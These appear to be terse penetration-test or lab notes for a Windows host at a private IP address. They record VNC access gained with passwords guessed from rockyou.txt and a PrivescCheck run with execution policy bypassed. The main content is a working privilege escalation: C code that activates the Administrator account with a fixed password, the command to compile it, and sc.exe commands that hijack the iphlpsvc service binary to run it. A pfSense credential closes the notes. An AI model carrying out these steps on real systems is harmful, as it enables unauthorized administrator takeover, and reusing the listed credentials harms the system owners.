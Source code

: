 url=192.168.1.101

nmap

vnc port 5900
password is rockyou (manually testing rockyou.txt)
same for user is iloveyou

[PrivescCheck](https://github.com/itm4n/PrivescCheck)

file transfer over updog

```sh
Set-ExecutionPolicy Bypass -Scope Process -Force
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format HTML
```

# Activate Admin user and set password
```c
#include <windows.h>
#include <stdio.h>

int main() {
    system("net user Administrator P@ssw0rd123 /active:yes");
    return 0;
}

```

compile like that:

`x86_64-w64-mingw32-gcc admin.c -o admin.exe`

file transfer over updog

```sh
sc.exe config iphlpsvc binPath= "C:\Users\Jenny\Downloads\admin.exe"
sc.exe stop iphlpsvc
sc.exe start iphlpsvc
```


pfsense cred: FyDRAquukjS2